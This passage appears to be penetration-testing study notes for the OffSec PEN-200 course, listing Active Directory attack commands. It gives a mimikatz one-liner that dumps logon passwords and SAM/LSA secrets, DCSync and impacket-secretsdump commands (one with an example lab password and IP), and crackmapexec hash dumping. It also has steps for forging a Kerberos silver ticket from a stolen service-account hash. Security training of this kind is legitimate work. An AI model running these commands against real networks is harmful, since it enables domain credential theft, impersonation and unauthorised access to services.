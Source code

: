 
### Secret Dumping 
```
#MIMIDUMP
.\mimikatz.exe "privilege::debug" "log mimikatz_passwords.txt" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "exit"

#DC SYNC
lsadump::dcsync /user:<domain>\<user>
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

#SAM / NTDS DUMP
impacket-secretsdump <user>@<ip>
crackmapexec smb <ip> -u <user> -p <password> --sam / --lsa / --ntds
```

### Silver Tickets
Is there an interesting service running such as an HTTP or SMB share that can't be accessed?
https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/silver-tickets
```
#Grab SID of your user.
whoami /user

#Open mimi
privilege::debug

#Grab NTLM hash of service account
sekurlsa::logonpasswords

#Generate ticket
kerberos::golden /sid:<id> /domain:<domin> /ptt /target:<ip/dnsname> /service:<protocol eg. http /smb> /rc4:<ntlm_of_service> /user:<our_adminuser>

#Check ticket
klist

#Access service
example: iwr -UseDefaultCredentials http://<target>
```


